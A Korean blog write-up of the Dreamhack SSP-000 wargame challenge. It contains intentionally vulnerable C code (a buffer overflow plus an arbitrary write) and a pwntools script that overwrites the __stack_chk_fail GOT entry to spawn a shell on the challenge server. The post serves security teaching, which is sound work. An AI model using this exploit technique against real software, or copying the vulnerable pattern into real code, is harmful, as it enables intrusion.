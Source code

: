 ```yaml
---
layout: post
title: Dreamhack | SSP-000
subtitle: Dreamhack SSP-000 문제 풀이
categories: Pwnable
tags: [Pwnable, dreakhack, Canary, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131011-8fd417f2-0eb6-4ea6-aeae-fa628e45c207.jpg">
</p>

해당 문제는 Dreamhack Pwnable 교육과정 중 Stack Canary 실습 문제이다. 따라서 문제에서 요구하는 바는 SSP 방어 기법을 위해하여 flag를 획득하는 것이다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131229-8ffe19bd-f21c-4b96-be1e-d172d74699a3.jpg" width = 350>
</p>

* NX bit 활성화로 인해서 BUF에 쉘 코드를 직접 대입하진 못할 것이고, Canary가 존재하므로 Canary leak을 통해 RET를 `get_shell`로 변경할 수 있을 것으로 예상했다.

* 하지만, 문제를 보면 Canary의 값을 알 방법은 없다.

```C
*(long *)addr = value;
```

이 부분을 통해 addr의 메모리 값을 변경할 수 있을 것으로 예상된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131377-bda6a500-8902-4258-a11f-77165fb74904.jpg" width = 350>
</p>

`pwndbg`를 통해 disassemble 했을 때 스택 메모리를 표현한 것이다.

```C
read(0, buf, 0x80);
```

해당 함수를 통해 Canary값을 변조하여 **call   0x4006d0 <__stack_chk_fail@plt>** 호출이 가능하게 된다.

**__stack_chk_fail@plt**를 통해 GOT를 참조할 것이다. 따라서, 우리가 입력할 수 있는 addr를 **__stack_chk_fail@got**로 변경하고, 해당 내용을 `get_shell`로 변경하면 된다.(해당 루틴이 정확하게 어떻게 이루어지는지 더 공부해야할 것으로 보인다.)

* **addr** : **__stack_chk_fail@got** 주소
* **__stack_chk_fail@got** : `get_shell`의 주소

현재로서는 이렇게 이해하고 있습니다.

```python
from pwn import *

#p = process("./ssp_000")
p = remote("host3.dreamhack.games", 12630)
elf = ELF("./ssp_000")

get_shell = elf.symbols['get_shell']
p.sendline(b"A"*80) #nop 80bytes

p.recvuntil("r : ") #Addr :

p.sendline(str(elf.got['__stack_chk_fail']))

p.recvuntil("e : ") #value :

p.sendline(str(get_shell))

p.interactive()
```